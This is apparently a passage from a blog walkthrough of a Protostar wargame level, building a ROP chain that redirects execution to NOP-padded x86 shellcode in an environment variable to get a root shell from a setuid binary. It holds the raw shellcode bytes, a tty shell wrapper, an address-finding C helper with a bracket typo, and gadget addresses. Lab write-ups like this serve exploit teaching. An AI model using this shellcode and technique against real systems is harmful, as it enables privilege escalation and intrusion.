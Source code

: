 There's only one more thing we need: Shellcode! Something eax can point to that actually does something. In this case we will launch a shell because these are all setuid binaries. Originally when I had completed this I ran into problems: my shell at /bin/sh or /bin/dash would immediately exit. I found a little trick on the <a href="https://isisblogs.poly.edu/2011/10/21/geras-insecure-programming-warming-up-stack-1-rop-nxaslr-bypass/" target="_blank">isispoly blog</a> that helped me work around my issues. Instead of launching /bin/sh I modified my shellcode so that it launched /tmp/sh, so I could define the executable. The code from the isispoly blog is below: 
<pre><code class="lang:bash" >
\#!/bin/bash
term="/dev/$(ps -p$$ --no-heading | awk '{print $2'})"
exec sh < $term
</code></pre>

What this does is gets the current tty and launches a shell with it. Good. So now we can take our shellcode and put it somewhere. I needed to make sure that /tmp/sh was chmodded a+x first, though, so it would actually execute when I finished. 

The next issue is where to put our shellcode. We could store it in the buffer of the program but that is usually unreliable. I like to use environmental variables to hold my shellcode. Finding out the address of an environmental variable is easy with the following C program:

<pre><code class="lang:c">
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
int main(int argc, char **argv){
    if (argc > 1)
        printf("%s: %x\\n", argv[1], getenv[argv[1]]);
    return 0;
}
</code></pre>

This will take the name an environmental variable as an argument and print out its address in memory. I usually compile this and put it in /bin so I can use it later as well. Nifty. So now we put our shellcode (and lots of NOPs) in an environmental variable and find its address. 

<pre><code>
/opt/protostar/bin $ export WIN=python -c 'print "\x90" * 200 + "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x74\x6d\x70\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'
/opt/protostar/bin $ getenv WIN
WIN: 0xbfffffa7
</code></pre>

Nice. So now I have everything I need to make this ROP chain:
<ul>
<li>4 gadgets:</li>
<ol>
    <li>0x8048452L: pop ebx ; pop ebp ;;</li>
    <li>0x804847fL: call eax ; leave ;;</li>
    <li>0x804844bL: xchg edi eax ; add al 0x8 ; add [ebx+0x5d5b04c4] eax ;;</li>
    <li>0x8048577L: pop edi ; pop ebp ;;</li>
</ol>
<li>Control of EIP</li>
<li>An address to feed into ebx to make sure our xchg gadget doesn't crash @ 0x62a4f184</li>
<li>Shellcode @ 0xbfffffa7</li>
</ul>
